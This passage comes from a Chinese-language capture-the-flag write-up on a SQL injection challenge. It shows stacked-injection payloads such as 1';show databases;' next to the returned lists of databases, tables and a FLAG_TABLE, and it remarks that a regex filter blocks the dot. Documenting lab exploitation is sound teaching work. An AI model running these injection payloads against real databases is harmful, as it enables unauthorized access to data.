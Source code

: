    * *1’;show columns from 1919810931114514;'*，返回内容为空

   * *1';show databases;'*,返回内容如下，发现有一个名为ctftraining的数据库

     ```php
     array(1) {
       [0]=>
       string(11) "ctftraining"
     }
     
     array(1) {
       [0]=>
       string(18) "information_schema"
     }
     
     array(1) {
       [0]=>
       string(5) "mysql"
     }
     
     array(1) {
       [0]=>
       string(18) "performance_schema"
     }
     
     array(1) {
       [0]=>
       string(9) "supersqli"
     }
     
     array(1) {
       [0]=>
       string(4) "test"
     }
     ```

   * *1';show tables from ctftraining;'*，返回内容如下

     ```php
     array(1) {
       [0]=>
       string(10) "FLAG_TABLE"
     }
     
     array(1) {
       [0]=>
       string(4) "news"
     }
     
     array(1) {
       [0]=>
       string(5) "users"
     }
     ```

   * *1';show columns from ctftraining.FLAG_TABLE;'*，访问失败，发现是因为正则屏蔽了"\."
